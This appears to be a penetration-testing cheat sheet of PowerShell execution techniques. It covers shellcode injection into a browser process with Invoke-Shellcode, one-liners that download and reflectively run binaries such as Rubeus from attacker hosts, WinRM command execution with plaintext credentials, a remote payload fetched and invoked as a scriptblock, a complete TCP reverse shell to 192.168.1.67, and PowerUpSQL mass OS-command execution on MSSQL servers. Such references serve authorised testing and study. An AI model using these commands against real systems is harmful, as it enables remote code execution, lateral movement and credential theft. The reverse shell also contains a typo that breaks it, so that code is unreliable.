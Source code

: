 # Execution

## Executing Shellcode

Empire's `Invoke-Shellcode`

{% code fullWidth="false" %}
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1')
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin")
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b
```
{% endcode %}

Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`

### Executible to In-Memory Assembly Code

Reflectively loading a binary as assembly code

```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```

#### Download and Execute in Memory

GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)

```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)

```

Additionally, GitHub: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```

### WinRM

The following will establish a WinRM session and execute commands through it

```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess
}
```

Instead, you can gain an interactive session with:

```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```

### PowerShell Execution via Text File

{% code fullWidth="false" %}
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke()
```
{% endcode %}

### Reverse Shell

{% code fullWidth="false" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.1.67', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncodifng).GetString($bytes, 0, $i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```
{% endcode %}

## Microsoft SQL Server (MSSQL)

### PowerUpSQL

Create to: [https://github.com/lkys37en](https://github.com/lkys37en)

```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co"
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}

	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append
}
```



